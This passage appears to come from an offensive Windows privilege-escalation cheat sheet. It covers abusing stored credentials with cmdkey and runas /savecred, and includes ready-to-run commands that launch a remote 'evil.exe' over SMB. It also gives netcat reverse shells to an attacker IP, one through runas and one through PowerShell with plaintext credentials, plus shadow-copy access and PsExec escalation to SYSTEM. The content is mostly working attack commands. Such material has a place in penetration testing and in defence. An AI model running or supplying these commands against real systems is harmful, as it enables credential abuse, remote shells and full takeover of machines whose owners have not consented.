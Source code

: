 ## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. 
The following example is calling a remote binary via an SMB share.
```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.

```powershell
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
# List shadow copies using diskshadow
diskshadow list shadows all
  
# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

## EoP - From local administrator to NT SYSTEM

```powershell
PsExec.exe -i -s cmd.exe
```
